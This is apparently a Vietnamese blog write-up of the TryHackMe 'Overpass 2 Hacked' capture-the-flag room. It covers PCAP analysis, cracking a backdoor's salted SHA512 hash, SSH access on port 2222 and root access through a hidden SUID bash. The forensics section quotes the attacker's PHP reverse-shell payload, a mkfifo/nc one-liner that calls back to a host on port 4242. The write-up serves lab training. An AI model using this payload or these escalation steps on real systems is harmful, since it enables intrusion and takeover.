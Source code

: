 ```yaml
---
title: "Overpass 2 Hacked"
description: "Overpass đã bị hack. Phân tích hành động của kẻ tấn công và hack trở lại."
publishDate: 2025-09-18
tags: 
- TryHackMe
- CTF - Capture The Flag
- Offensive Pentesting
- Challenges
- Privilege Escalation
draft: false
language: 'Việt Nam'
heroImage: { src: './thumbnail.png', color: '#2b831f' }
---
```


## Forensics - Phân tích PCAP

> Overpass đã bị hack! Đội SOC (Paradox, chúc mừng vì được thăng chức) đã phát hiện hoạt động đáng ngờ trong một ca trực đêm muộn khi đang xem shibes, và đã kịp thời bắt gói tin trong lúc cuộc tấn công diễn ra.

Từ thông tin trên mình nhận được file `overpass2_1595383502269.pcapng`.

![img](imgs/1.png)

Phân tích sơ qua mình thấy một stream bắt được khi kẻ tấn công upload reverse shell thông qua `/development/upload.php` với payload:

```php
<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
```

![img](imgs/2.png)

Người này sau khi có được shell đã thực hiện truy cập sang người dùng `james`.

![img](imgs/3.png)

Kẻ này đã thiết lập một `persistence` bằng cách cài một backdoor.

![img](imgs/4.png)

Tại đây, hắn cũng lấy thông tin file `shadow`, mình cũng sử dụng file này kèm theo wordlist `fasttrack` thì giải mã được mật khẩu của 4 tài khoản.

![img](imgs/5.png)

## Research - Phân tích mã nguồn

Kiểm tra mã nguồn một chút thì `backdoor` này sử dụng hash mặc định là:

![img](imgs/6.png)

Kèm theo đó có `salt` là:

![img](imgs/7.png)

Nhưng khi thực thi `backdoor` thì kẻ tấn công dùng một hash khác là:

```
6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed
```

Từ các thông tin trên mình sẽ giải mã hash mà kẻ tấn công đã sử dụng, trong mã nguồn `backdoor` này sử dụng thuật toán hash `SHA512` kèm salt:

![img](imgs/8.png)

Công cụ `hashcat` có hỗ trợ thuật toán này ở mode `1710` và sau khi giải xong mình đã có được plain text.

![img](imgs/10.png)

## Attack - Get back in!

Từ các thông tin trên, mình truy cập vào website mục tiêu thì thấy nó đã bị kẻ tấn công deface.

![img](imgs/11.png)

Mình thực hiện SSH vào `james` với các thông tin mình tìm được, nhưng không có quyền truy cập.

Vấn đề nằm ở đây, kẻ tấn công không SSH vào port mặc định (22) mà SSH vào port `2222`.

![img](imgs/12.png)

Sau khi SSH ở port `2222` thì mình đã có quyền truy cập vào người dùng `james`.

![img](imgs/13.png)

Tại thư mục `/home` của `james`, mình tìm thấy flag trong file `user.txt`.

![img](imgs/14.png)

Và cũng tại đây kẻ tấn công đã để lại một file thực thi bị ẩn `.suid_bash`.

Sau một tí thời gian, khi thực thi file và tìm hiểu thì mình thực thi lệnh theo hướng dẫn.

```bash
Type `./.suid_bash -c "help set"' for more information about shell options.
```

Trong này mình tìm thấy tùy chọn `-p` có vẻ sẽ giúp mình leo thang đặc quyền.

![img](imgs/15.png)

Khi thực thi thành công, mình đã có quyền `root` và tìm thấy flag trong file `root.txt` tại thư mục `/root`.

![img](imgs/16.png)

